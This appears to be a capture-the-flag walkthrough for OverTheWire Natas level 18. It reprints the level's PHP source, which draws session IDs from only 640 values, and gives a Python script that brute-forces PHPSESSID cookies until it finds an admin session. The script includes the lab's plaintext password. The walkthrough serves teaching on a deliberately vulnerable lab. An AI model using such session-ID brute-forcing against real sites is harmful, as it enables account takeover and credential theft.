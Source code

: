 
# Level 18


**URL : natas18.natas.labs.overthewire.org**


## Creds for this challenge
Check previous level for creds

## Solution

Let's first drop the source coooode !

```php
<?

$maxid = 640; // 640 should be enough for everyone

function isValidAdminLogin() { /* {{{ */
    if($_REQUEST["username"] == "admin") {
    /* This method of authentication appears to be unsafe and has been disabled for now. */
        //return 1;
    }

    return 0;
}
/* }}} */
function isValidID($id) { /* {{{ */
    return is_numeric($id);
}
/* }}} */
function createID($user) { /* {{{ */
    global $maxid;
    return rand(1, $maxid);
}
/* }}} */
function debug($msg) { /* {{{ */
    if(array_key_exists("debug", $_GET)) {
        print "DEBUG: $msg<br>";
    }
}
/* }}} */
function my_session_start() { /* {{{ */
    if(array_key_exists("PHPSESSID", $_COOKIE) and isValidID($_COOKIE["PHPSESSID"])) {
    if(!session_start()) {
        debug("Session start failed");
        return false;
    } else {
        debug("Session start ok");
        if(!array_key_exists("admin", $_SESSION)) {
        debug("Session was old: admin flag set");
        $_SESSION["admin"] = 0; // backwards compatible, secure
        }
        return true;
    }
    }

    return false;
}
/* }}} */
function print_credentials() { /* {{{ */
    if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas19\n";
    print "Password: <censored></pre>";
    } else {
    print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas19.";
    }
}
/* }}} */

$showform = true;
if(my_session_start()) {
    print_credentials();
    $showform = false;
} else {
    if(array_key_exists("username", $_REQUEST) && array_key_exists("password", $_REQUEST)) {
    session_id(createID($_REQUEST["username"]));
    session_start();
    $_SESSION["admin"] = isValidAdminLogin();
    debug("New session started");
    $showform = false;
    print_credentials();
    }
} 

if($showform) {
?>

```

#### Important things to consider
1. maxid = 640 !, they said that should be enough
```php
<?
$maxid = 640; // 640 should be enough for everyone
?>
```

2. The use of cookies, which of course we can control.
```php
<?
function my_session_start() { /* {{{ */
    if(array_key_exists("PHPSESSID", $_COOKIE) and isValidID($_COOKIE["PHPSESSID"])) {
    if(!session_start()) {
        debug("Session start failed");
        return false;
    } else {
        debug("Session start ok");
        if(!array_key_exists("admin", $_SESSION)) {
        debug("Session was old: admin flag set");
        $_SESSION["admin"] = 0; // backwards compatible, secure
        }
        return true;
    }
    }

    return false;
} 
?>
```

This is a very interesting function to consider, because it works with `cookies `, to get the password for the next level we should login as admin, and the admin account has `admin` session variable set to 1.  
There must be a session that has `admin` session variable set to 1.So let's bruteforce all sessions.

Here is my short python code

```python
#!/usr/bin/python3

# coding: utf-8


import requests
import re

URL = "http://natas18.natas.labs.overthewire.org"

session = requests.Session()
session.auth  = ('natas18', 'xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP')

# we have only 640 id's

cookies = {'PHPSESSID': ''}

for i in range(1, 640+1):
    cookies['PHPSESSID'] = str(i)
    req = session.get(URL, cookies=cookies)
    if 'regular user' not in req.text:
        m = re.search(r"Password: ([a-zA-Z0-9]+)", req.text)
        if m:
            print(m.group(0))
            break

```















